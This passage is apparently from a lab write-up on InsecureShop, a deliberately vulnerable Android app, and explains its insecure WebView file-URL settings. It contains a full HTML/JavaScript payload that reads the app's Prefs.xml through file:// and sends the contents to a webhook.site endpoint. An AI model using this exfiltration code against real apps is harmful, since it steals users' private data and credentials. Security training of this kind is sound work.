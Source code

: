 ## **Insecure WebView Properties**

> **Description:** Insecure WebView properties are enabled that can allow third-party apps to exfiltrate local data to remote domain.

In the same class, `com.insecureshop.WebViewActivity` the `setAllowUniversalAccessFromFileURLs()` is being used. Enabling this setting allows malicious scripts loaded in a `file://` context to launch cross-site scripting attacks, either accessing arbitrary local files, including WebView cookies, app private data or even credentials used on arbitrary web sites. We have already exploited this to load different URLs with `http://` and `https://` schemas. Now we have the ability to access internal files via the `file://` schema. But the objective here is to send the exfiltrated files to a remote domain. What we can do here is to craft an HTML file that dumps the `Prefs.xml` file.

```html
<!DOCTYPE html>
<html>
<head>
</head>
<body>
    <script type="text/javascript">
        // Function to read the local file
        function readLocalFile() {
            // Create an XMLHttpRequest object
            var xhr = new XMLHttpRequest();
            xhr.open("GET", "file:///data/data/com.insecureshop/shared_prefs/Prefs.xml", true);

            // Set up the callback to handle the file content
            xhr.onload = function () {
                // File content is in xhr.responseText
                sendToServer(xhr.responseText);
                document.write("Call sendToServer Function");
            }
            xhr.onerror = function () {
                    document.write("Failed to read the file");
                }
            // Send the request
            xhr.send();
        };

        // Function to send the file content to a remote server
        function sendToServer(fileContent) {
            var xhr = new XMLHttpRequest();
            var serverUrl = "http://webhook.site/4f08c75a-a478-4f6f-93bb-2ee8eba6fa4b/file?="+fileContent;
            xhr.open("GET", serverUrl, true);
            xhr.onerror = function(e) {
                document.write("error again!!");
                callback(null);
            }
            xhr.send();
        }
        // Execute the function to read and exfiltrate the file
        readLocalFile();
    </script>
</body>
</html>
```
